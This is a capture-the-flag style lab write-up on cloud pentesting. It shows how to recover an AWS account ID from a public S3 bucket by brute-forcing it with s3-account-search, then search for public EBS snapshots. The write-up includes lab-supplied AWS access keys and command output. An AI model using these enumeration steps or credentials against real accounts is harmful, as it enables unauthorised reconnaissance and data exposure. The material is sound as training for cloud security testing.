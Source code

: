 ```yaml
---
author: Nithissh S
pubDatetime: 2024-02-12
modDatetime: 2024-02-12
title: Identify Account ID for the Public S3 Bucket
slug: lab-identify-account-id-from-public-s3-bucket
featured: false
draft: false
tags:
  - Pwnedlabs
  - Cloud Pentest
description:
  Simulation of identifying the Account IDs of AWS accounts through the public s3 bucket by exploiting the misconfiguration on s3 bucket's IAM policy
---
```



## Identify Account ID for the Public S3 Bucket

As an initial entry endpoints we have been provided with the following details 

  

| IP Address | 54.204.171.32 |
| --- | --- |
| AWS ACCESS KEY | AKIAWHEOTHRFW4CEP7HK |
| AWS SECRET ACCESS KEY | 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 |

  

Before even we are starting out the challenge, we can looking into the fundamentals of understanding `Account ID`  and How we can understand and exploit this misconfiguration

  

### Short intro on how Account ID works

Account ID is 12 Digital Number like `1234567891234`  which helps in identifying the AWS accounts and we can also identify resource aligned with it through arn strings ( eg. `arn:aws:iam::1234567891234:role/dev` ) where the Account ID is `1234567891234` 

  

### Outro of understanding how we can enumerate

- Every AWS resource including s3 will belong to particular AWS account which will be identified through Account ID 
- Usually IAM helps in restricting access to resources on AWS by determining this role will access to resources they were allowed or if there is no access then they will throw `access denied` error
- Then they have introduced new resource based policy which is `S3:ResourceAccount` where you can able to specify that this particular Account  should have access to s3 bucket.. only Account with access to resources will be allowed or else the access will be restricted 
- In order to make a verification, For eg. Let's assume we have an account with an account ID `123412341234` have access to s3 bucket called `devtest`.. due to `s3:ResourceAccount` Policy if you try to access the same s3 bucket from a different account with account ID `123412341235` we won't able to access it.. It will be accessible only when you have right account ID

  

### Solution to the challenge 

  

With the following IP addresss `54.204.171.32`  we have an HTTP application which looks like a ecommerce application where they fetches the image from the following s3 bucket `mega-big-tech.s3.amazonaws.com` 

  

![](../../assets/images/research/identity-1.png)

  

In the mentioned s3 bucket, we can able to get the object which is image files and when opening the s3 bucket link directly, list out the objects in the bucket.. then my understanding is assume that for this s3 bucket we have two policies had been implemented which is `GetObject`  and `ListBucket`

  

#### Example IAM Policy being implemented on mega-big-tech s3 bucket 

  

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enum",
            "Effect": "Allow",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::mega-big-tech/*"
        },
        {
            "Sid": "Enum1",
            "Effect": "Allow",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::mega-big-tech"
        }
    ]
}
```

  

Before even going into main phase of exploitation, we need to some detail on our s3 bucket which is to get the region and for that we can use `curl`  and the region is on `us-east-1`  which is by default 

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % curl -I "https://mega-big-tech.s3.amazonaws.com"
HTTP/1.1 200 OK
x-amz-id-2: dDHTbab4SDDNMz0NhYu1Qs48Ei+PaWgxNQ71tMXQLAluCkt8MzahXyI/tydcV6wsaZBr4bJL7JE=
x-amz-request-id: 75XY0KYZ4EP7TK44
Date: Mon, 12 Feb 2024 05:50:31 GMT
x-amz-bucket-region: us-east-1
x-amz-access-point-alias: false
Content-Type: application/xml
Server: AmazonS3
```

  

Now, lets configure the AWS credentials as initially provided and let’s run `aws sts get-caller-identity`  which reveals that the credential belongs to `s3user`  

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % aws sts get-caller-identity --profile leakybucket
{
    "UserId": "AIDAWHEOTHRF62U7I6AWZ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/s3user"
}
```

  

With the current credentials, we don’t access to the s3 bucket where we have already mentioned that this validation will be based on your account and account ID 

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % aws s3 ls s3://mega-big-tech --profile leakybucket

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

  

Assume we have another user called `LeakyBucket`  we can check this account against the s3 nucket called `mega-big-tech`  and bruteforce their `Account ID`  using a tool [s3-account-search](https://github.com/WeAreCloudar/s3-account-search "https://github.com/WeAreCloudar/s3-account-search")

  

```sh
nits@FWS-CHE-LT-8869 09-02-2024 % s3-account-search arn:aws:iam::427648302155:role/LeakyBucket mega-big-tech
Starting search (this can take a while)
found: 1
found: 10
found: 107
found: 1075
found: 10751
found: 107513
found: 1075135
found: 10751350
found: 107513503
found: 1075135037
found: 10751350379
found: 107513503799
```

  

Breaking down of the above command, we have same arn id with assuming a role called `LeakyBucket`  against the s3 bucket called `mega-big-tech`  and found that the account ID is  `107513503799`  is identified as flag 

  

### Further Possible Escalation with the Account ID 

  

Now in our AWS console, Go for the region as `us-east-1`  and sometimes you need to change it in console if you are like me where I’m from india it will be in `ap-southeast-1`


![](../../assets/images/research/identity-2.png) 

  

In the EC2 service, we have a ability to look into the public snapshots ( Kind of snapshots provided by public or sometimes due to misconfiguration made by account by search through Account ID ) For our scenario, we made search with the following account ID `107513503799`  and found that public EBS snapshot available 

  

![](../../assets/images/research/identity-3.png)
